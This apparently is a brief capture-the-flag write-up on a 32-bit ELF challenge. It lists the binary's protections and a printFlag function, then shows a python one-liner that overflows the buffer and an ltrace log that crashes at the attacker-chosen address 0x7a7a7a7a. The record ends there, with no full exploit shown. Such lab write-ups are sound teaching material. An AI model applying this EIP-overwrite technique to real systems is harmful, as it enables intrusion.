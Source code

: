 0x0 Introduction
=

`bby: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=3fb9014d549efe4ce761146b736590eb9f7e281d, not stripped
`

This file is ELF 32bit execution.

	CANARY    : disabled

	FORTIFY   : disabled

	NX        : ENABLED

	PIE       : disabled
	
	RELRO     : Partial

It have those protect.

`0804856d <printFlag>:`

And there hava a function call printFlag.If I can controller eip and jump to this function,I will get the flag.

0x1 Vulnerability
=

`# python -c "print 'a'*24+'zzzz'"|ltrace -i ./bby 

[0x8048491] __libc_start_main(0x80485c9, 1, 0xffb97214, 0x8048610 <unfinished ...>

[0x80485de] puts("This program is hungry. You shou"...This program is hungry. You should feed it.
) = 44

[0x80485f2] __isoc99_scanf(0x80486d8, 0xffb97164, 0xffb9721c, 0xf75573fd) = 1

[0x80485fe] puts("Do you feel the flow?"Do you feel the flow?
)        = 22

[0x7a7a7a7a] --- SIGSEGV (Segmentation fault) ---

[0xffffffffffffffff] +++ killed by SIGSEGV +++
`
